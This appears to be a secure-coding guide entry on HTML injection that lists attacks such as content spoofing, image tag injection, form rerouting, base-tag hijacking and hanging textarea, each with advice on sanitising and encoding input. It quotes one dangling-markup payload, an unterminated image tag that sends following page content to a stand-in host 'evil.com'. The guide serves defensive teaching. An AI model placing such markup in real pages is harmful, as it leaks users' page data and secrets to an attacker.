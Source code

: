 HTML injections
-------

**Description:**

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

1. Content Spoofing 
2. Image Tag Injection 	
3. Form Rerouting 
4. Base Jumping 
5. Element Override 
6. Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarised above.

**Solution:**

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs 
whenever an attacker can inject code into your application. It is very important to sanitise and
or encode user data before you display it on screen as HTML. 

2.Image tag injection occurs whenever an attacker injects a broken image tag with a non terminated
parameter like : "img src='http://evil.com?steal.php?value=
Every content after value= parameter will now be stolen and send to evil.com by the attacker 
till the injection finds the next occurence of a matching single quote.

Again you should sanitise and encode the userinput to prevent an image tag from being injected
in your application. For whenever a user is permitted to submit an image on your application
enforce and verify the application accepts valid non-broken tags only.
 
3.The "form" tag can't be nested. The top-level occurrence of this element
always takes precedence over subsequent appearances. Again you must avoid this type by 
properly encoding and sanitising your user-inputs.

4.Whenever an attacker injects a "base" tag into your application it can steal data because
the <base> tag specifies the base URL/target to where to process his data to.

The solution to base jumping would be to us absolut paths in your application such as:
action='/update_profile.php'

instead of:
action='update_profile.php'

5/6. can both also easily be prevented simply be encoding or sanitising your userinput
submitted towards your application.

Always validate your user-input on a high level(server side constraint). Whenever your 
application expects an integer you should validate and check whether the user submitted 
input really is what you expected it to be and otherwise you terminate and log the request.

   
